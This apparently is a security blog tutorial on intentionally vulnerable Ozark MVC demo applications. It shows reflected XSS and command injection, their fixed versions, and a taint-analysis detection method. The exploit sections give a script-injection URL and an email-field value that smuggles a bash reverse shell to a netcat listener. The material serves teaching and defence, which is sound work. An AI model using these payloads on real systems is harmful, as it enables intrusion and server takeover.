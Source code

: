 ```yaml
---
title: 'Cross Site Scripting (XSS) and Command Injection Tutorial in Ozark'
date: 2020-10-30
permalink: /posts/2012/08/blog-post-1/
tags:
  - cool posts
  - category1
  - category2
---
```


<h3 style="color:#ff0000">So stay tune for a precise solution using theory of strings soon...</h3>

**Problem Statement:**
======

The challenge (posted by [Alexander Hoole](https://www.zoominfo.com/p/Alexander-Hoole/-980178248)) is to code up an application that exhibits few (potential) weaknesses feasible in the Ozark framework. 

<a href='https://github.com/farif/Ozark-mvc-j2ee'>Source Code</a>

 
**\[Research & Threat Modeling\]:**

Model-View-Controller (MVC) is a framework/design-pattern for building
web applications. It introduces a paradigm of clean design by separating
concerns about modeling, presentation, and business logic in an
application.

MVC 1.0 (ref: JSR 371) is a property action-oriented framework, as
compared to the (predecessor) UI component-oriented MVC. It provides a
lot of flexibility to developers through features like: doesn't hide
HTTP request and response mechanism, didn't dictate or constraint the
use of HTML/CSS/JS and the actions-events are directly passed on to the
backend. Unfortunately, these features comes at the price of the
security by exposing too much attack surface. Even though Ozark API
\[Chapter 4 (ref: JSR 371)\] does provide few mitigatations functions
and/or controls but mostly the security aspect is overlooked. For
example, CSRF protection via tokens and XSS encoder to escape malicious
JS but this support isn't enough to fend off all security threats. Thus
required a comprehensive security assessment in every aspect of the
software development life cycle.

The reference implementation for MVC 1.0 is called Ozark \[2\]. A quick
round of threat modeling reveals that the natively developed application
can be easily compromised. Because the framework didn\'t give much
consideration to the security aspects and exposes too much attack
surface. We have developed an application to demonstrate that reflects
on critical weakness, one that impacts the client-side while the other
results in a complete server-side compromise (consult Fig 1).

> ![](http://farif.github.io/files/blogs/ozark/ozark_app.png)
>
> Fig 1: Threat Model for Ozark App.

The two exposed weakness are:

**\[Vulnerable Application 1\] Cross-Site Scripting (XSS): Reflected**

It is an application flaw that exploits victims trust in the
application. The application accepting non-trusted data (user-provided
inputs) and returning it to the browser without validation or
sanitization that may lead to run malicious scripts in the victim\'s
browser resulting to a compromise via hijacked sessions, stolen cookie,
invalid redirects, etc. The mitigation is to escape or filter out all
the special characters in the reply and help to avoid any reflected
script back to the victim.

**\[Vulnerable Application 2\] Command Injection:**

It is an application flaw that exploits application trust in the user.
The adversary goal is to execute arbitrary commands using controls
(forms, cookies, HTTP headers, etc.) provided with the vulnerable
application. The application passes unsafe user-supplied data to the
server-side and without proper validation it gets executed with a
handsome privilege. The prevention or mitigation for command injection
attacks is to employ rigrious input validation.

**\[Test Applications\]**

**Test Vulnerable Application 1:**

It is a simple greeting application, provided with a user name returns a
greeting message. The attacker can able to execute a malicious JS on the
victims-machine through malformed input appended in the input parameter
to the URL.

![thumbnail](http://farif.github.io/files/blogs/ozark/fig_1.png)

**Vulnerability:** Reflected Cross-site Scription (XSS).

**Exploit:**

ozark-vuln-app/ozark-vuln/XSS?name=Alex+%3Cscript%3Ealert(%22Bingo%22)%3C/script%3E

![](http://farif.github.io/files/blogs/ozark/fig_2.png)

**NOTE:** If the victim is using Google Chrome, it blocks the execute
and return an error page with the exception:\
ERR\_BLOCKED\_BY\_XSS\_AUDITOR\
This check can be bypassed but we didn't investigated it further.

**Test Vulnerable Application 2:**

It is the same application that sends an email to the user-provided
email address. An attacker pwned the server machine (even the one behind
the firewall or in a protected network) by simply executing a reverse
shell.

![](http://farif.github.io/files/blogs/ozark/fig_3.png)

**Vulnerability:** Command Injection

**Exploit:**\
Deploying a reverse shell.

Listening on attacker's machine:

\#sudo nc -l 5555

Fill in the 'E-Mail:' box:

test\@hotmail.com \| bash -i \>& /dev/tcp/127.0.0.1/5555 0\>&1

![](http://farif.github.io/files/blogs/ozark/fig_4.png)

![](http://farif.github.io/files/blogs/ozark/fig_5.png)

![](http://farif.github.io/files/blogs/ozark/fig_6.png)

**Test Safe Application 1:**

This the counterpart of previous vulnerable application. The security
checks are implemented to stop cross-site scripting attack.

![](http://farif.github.io/files/blogs/ozark/fig_7.png)

**Mitigation:**

The mitigation is to escape/encode the special character's in the
provided URL before sending it back.

No reflected XSS attack is possible in it.

![](http://farif.github.io/files/blogs/ozark/fig_8.png)

**Test Safe Application 2:**

This the counterpart of the previous vulnerable application. The
security checks are implemented to stop command injection attack.

![](http://farif.github.io/files/blogs/ozark/fig_9.png)

**Mitigation:**

The fix is to validate the email address contents before passong on the
program that execute mail client command.

Fail to execute the injected command.

![](http://farif.github.io/files/blogs/ozark/fig_10.png)

**Disclaimer:** The code snippets of 'Michael Scharhag' \[4\] has been
used to develope above applications.

**\[Detection\]**

Due to a large volume of web applications, the need for automated
analysis tools is on the rise. For detection, we simply employ taint
analysis to discover the vulnerable code in the aforementioned
application. The goal of our analysis is to determine whether it is
possible that user-provided data reaches sensitive a sink without being
properly sanitized. More precisely, through annotations, we collect data
orignated from untrusted source/user inputs (taint seeds). These
annotations are provided with the classes (\@BeanParam, \@QueryParam).

Using a tainted policy (similar to the one suggested in \[5,6\]) that
propagates the tainted values in the program execution paths and then
checks the taint status at a critical locations (taint sinks). The taint
sinks in our case are the path to the function-calls that execution
system command and/or alter the model state which is returned to the
user without going through any validation check.

**Algorithm** (algorithm pseudocode):

Input: Java Classes with annotated functions.

ouput: Safe or Unsafe Program.

prog\_ast = antlr\_parser(input\_program)

prog\_cfg = build\_CFG(prog\_ast) (Control Flow Graph)

safe\_flag = apply\_tainted\_policy(prog\_cfg)

Return safe\_flag;

**End**;

The proposed method is a little bit imprecise (not sound and definitely
incomplete). It might fail to detect the issues and/ or raise false
alarms due to under-tainting or over-tainting. 

<span style="color:red">*So stay tune for a precise solution using theory of strings soon.*</span>

**References:**

\[1\] MVC 1.0 - Model-View-Conrtoller Specification, Ivar Grimstad,
Christain Kaltepoth, v1.0, September 2018
([[https://jcp.org/en/jsr/detail?id=371]{.underline}](https://jcp.org/en/jsr/detail?id=371))

\[2\] Ozark - Reference Implementation for MVC 1.0 \[Oracle Website\]

\[3\] Vulncat.fortify.com/en

\[4\]
https://github.com/mscharhag/java-ee-8-mvc/tree/master/getting-started

\[5\] Schwartz, Edward J., Thanassis Avgerinos, and David Brumley. \"All
you ever wanted to know about dynamic taint analysis and forward
symbolic execution (but might have been afraid to ask).\" 2010 IEEE
symposium on Security and privacy. IEEE, 2010.

\[6\] Vogt, Philipp, et al. \"Cross Site Scripting Prevention with
Dynamic Data Tainting and Static Analysis.\" NDSS. Vol. 2007. 2007.
